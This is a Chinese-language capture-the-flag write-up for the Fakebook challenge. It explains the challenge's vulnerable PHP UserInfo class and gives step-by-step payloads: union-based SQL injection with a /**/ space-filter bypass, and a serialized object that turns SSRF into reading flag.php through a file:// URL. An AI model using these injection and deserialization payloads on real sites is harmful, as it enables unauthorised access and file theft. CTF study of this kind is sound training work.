





# [网鼎杯 2018]Fakebook

## 考点

- 数值型注入
- ssrf
- 反序列化

## 解题

刚进去让你注册一个账号



注册后点进去，注意url很可能是sql注入



除此之外再无信息。使用dirsearch扫描到robots.txt。

```php
<?php

class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)   //构建函数
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();    // curl_init(url)函数，初始化一个新的会话，返回一个cURL句柄

        curl_setopt($ch, CURLOPT_URL, $url);   // curl_setopt设置 cURL 传输选项，为 cURL 会话句柄设置选项
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);    // curl_exec — 执行 cURL 会话，返回访问结果
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);     // curl_getinfo — 获取一个cURL连接资源句柄的信息，获取最后一次传输的相关信息。返回状态码。
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}

```

1，注册界面输入的blog经过了isValidBlog（）函数的过滤，不然直接在注册界面blog处输入file:///var/www/html/flag.php就能拿到flag。

2，get()函数存在ssrf漏洞。

显然存在ssrf漏洞，并且拼接入我们的url就是我们注册的时候输入的url,但是显然是有waf的，所以我们就不能够直接利用。。没有WAF直接在注册界面输入file:///var/www/html/flag.php就能拿到我们想要的flag。所以，我们的思路是，把flag的路径赋给blog，经过一系列操作最后会返回flag.php的内容。
 **我们先尝试注入：**
 order by 5时报错，可以判断字段数为4。

`view.php?no=1 order by 4--+`


`view.php?no=1 union select 1,2,3,4--+`

输入union select 1,2,3,4提示no hack

于是尝试绕过waf，改为union/**/select后成功绕过，是过滤的空格，**并发现注入点为2**。

`view.php?no=0 union/**/select 1,2,3,4--+ `



**利用ssrf漏洞**

可以看到data中存的是反序列化数据，然后尝试利用ssrf漏洞读取flag.php。于是构造序列化的内容，里面要读取文件得使用file协议，基本的格式如： file:///文件路径
 构造payload为：



因为blog在第四位，所以paylaod:

`http://2f653644-f372-48c1-a0f9-7938cd6adf27.node3.buuoj.cn/view.php?no=0 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:19;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'`

查看源码：

iframe标签中读取了flag.php中的内容。flag即出现

